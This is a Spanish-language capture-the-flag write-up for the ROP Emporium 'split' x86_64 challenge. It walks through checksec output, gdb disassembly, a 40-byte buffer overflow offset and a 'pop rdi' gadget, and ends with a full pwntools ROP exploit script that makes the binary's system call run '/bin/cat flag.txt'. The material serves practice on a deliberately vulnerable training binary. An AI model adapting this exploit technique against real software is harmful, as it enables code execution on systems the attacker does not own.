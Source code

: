 ```yaml
---
title: split
date: 2024-08-12
platform: ROP Emporium
author: naibu3
---
```

#writeup 

# x86_64
## Reconocimiento

Como siempre comenzamos lanzando [[checksec]]:

```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Vemos que tan solo tiene el [[NX bit]], por lo que el ataque será probablemente mediante [[ROP - Return Oriented Programming|ROP]].

Analizando con [[gdb]]-[[pwndbg]]:

> **Funciones**
```gdb
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400742  usefulFunction
```

> **Main**
```gdb
0x0000000000400697 <+0>:	push   rbp
0x0000000000400698 <+1>:	mov    rbp,rsp
0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009d6]        # 0x601078 <stdout@@GLIBC_2.2.5>
0x00000000004006a2 <+11>:	mov    ecx,0x0
0x00000000004006a7 <+16>:	mov    edx,0x2
0x00000000004006ac <+21>:	mov    esi,0x0
0x00000000004006b1 <+26>:	mov    rdi,rax
0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
0x00000000004006b9 <+34>:	mov    edi,0x4007e8
0x00000000004006be <+39>:	call   0x400550 <puts@plt>
0x00000000004006c3 <+44>:	mov    edi,0x4007fe
0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
0x00000000004006cd <+54>:	mov    eax,0x0
0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
0x00000000004006d7 <+64>:	mov    edi,0x400806
0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
0x00000000004006e1 <+74>:	mov    eax,0x0
0x00000000004006e6 <+79>:	pop    rbp
0x00000000004006e7 <+80>:	ret
```

> **Pwnme**
```gdb
0x00000000004006e8 <+0>:	push   rbp
0x00000000004006e9 <+1>:	mov    rbp,rsp
0x00000000004006ec <+4>:	sub    rsp,0x20
0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
0x00000000004006f4 <+12>:	mov    edx,0x20
0x00000000004006f9 <+17>:	mov    esi,0x0
0x00000000004006fe <+22>:	mov    rdi,rax
0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
0x0000000000400706 <+30>:	mov    edi,0x400810
0x000000000040070b <+35>:	call   0x400550 <puts@plt>
0x0000000000400710 <+40>:	mov    edi,0x40083c
0x0000000000400715 <+45>:	mov    eax,0x0
0x000000000040071a <+50>:	call   0x400570 <printf@plt>
0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
0x0000000000400723 <+59>:	mov    edx,0x60
0x0000000000400728 <+64>:	mov    rsi,rax
0x000000000040072b <+67>:	mov    edi,0x0
0x0000000000400730 <+72>:	call   0x400590 <read@plt>
0x0000000000400735 <+77>:	mov    edi,0x40083f
0x000000000040073a <+82>:	call   0x400550 <puts@plt>
0x000000000040073f <+87>:	nop
0x0000000000400740 <+88>:	leave
0x0000000000400741 <+89>:	ret
```

> **UsefulFunction**
```gdb
0x0000000000400742 <+0>:	push   rbp
0x0000000000400743 <+1>:	mov    rbp,rsp
0x0000000000400746 <+4>:	mov    edi,0x40084a
0x000000000040074b <+9>:	call   0x400560 <system@plt>
0x0000000000400750 <+14>:	nop
0x0000000000400751 <+15>:	pop    rbp
0x0000000000400752 <+16>:	ret
```

Vemos que tenemos una vulnerabilidad de tipo [[Buffer overflow]], con [[pwntools|cyclic]] podemos calcular el offset, que en este caso es **40**.

Vemos también que tenemos una función *usefulFunction*, que nos da una llamada a *system*. Sin embargo, en este caso, se llama a `"/bin/ls"`:

```gdb
0x0000000000400746 <+4>:	mov    edi,0x40084a
0x000000000040074b <+9>:	call   0x400560 <system@plt>

[...]

pwndbg> x/s 0x40084a
0x40084a:	"/bin/ls"
```

Por lo que si conseguimos meter en *rdi* la cadena `"/bin/cat flag"`, nos imprimirá la flag. Por suerte dicha cadena existe en el binario:

```gdb
pwndbg> search "/bin/cat"
Searching for value: '/bin/cat'
split           0x601060 '/bin/cat flag.txt'
```

Solo nos queda buscar un gadget con [[ROPGadget]] (con [[ropper]] no aparecía):

```bash
ROPgadget --binary split | grep "pop rdi"
0x00000000004007c3 : pop rdi ; ret
```

## Explotación

El script quedaría:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './split'

ip=""
port=30303

def start():
    if args.REMOTE:
        return remote(ip, port)
    else:
        return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding = 40*b'A'

syscall = 0x000000000040074b
pop_rdi = 0x00000000004007c3
bin_cat = 0x601060

payload = padding + p64(pop_rdi) + p64(bin_cat) + p64(syscall)

io.send(payload)
io.interactive()
```